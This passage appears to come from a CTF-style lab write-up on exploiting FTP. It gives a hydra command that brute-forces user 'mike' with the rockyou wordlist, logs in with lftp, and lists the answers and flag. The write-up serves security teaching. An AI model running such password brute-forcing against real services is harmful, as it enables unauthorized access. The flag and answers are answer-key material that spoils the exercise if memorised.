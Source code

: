 {% hint style="success" %}
`mike`
{% endhint %}

## Task 10 Exploiting FTP

### What is the password for the user "mike"?

```
hydra -l mike -P /usr/share/wordlists/rockyou.txt ftp://10.10.66.149 -f -t64
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 08-56-51.png>)

{% hint style="success" %}
`password`
{% endhint %}

#### Bingo! Now, let's connect to the FTP server as this user **** and entering the credentials when prompted. What is ftp.txt?

```
lftp -u mike,password 10.10.66.149
ftp > cat ftp.txt
```

![](<../../.gitbook/assets/Screenshot from 2020-09-09 09-00-50.png>)

{% hint style="success" %}
`THM{y0u_g0t_th3_ftp_fl4g}`
{% endhint %}

## :link: Support Material

{% embed url="https://medium.com/@gregIT/exploiting-simple-network-services-in-ctfs-ec8735be5eef" %}

{% embed url="https://attack.mitre.org/techniques/T1210/" %}

{% embed url="https://www.nextgov.com/cybersecurity/2019/10/nsa-warns-vulnerabilities-multiple-vpn-services/160456/" %}
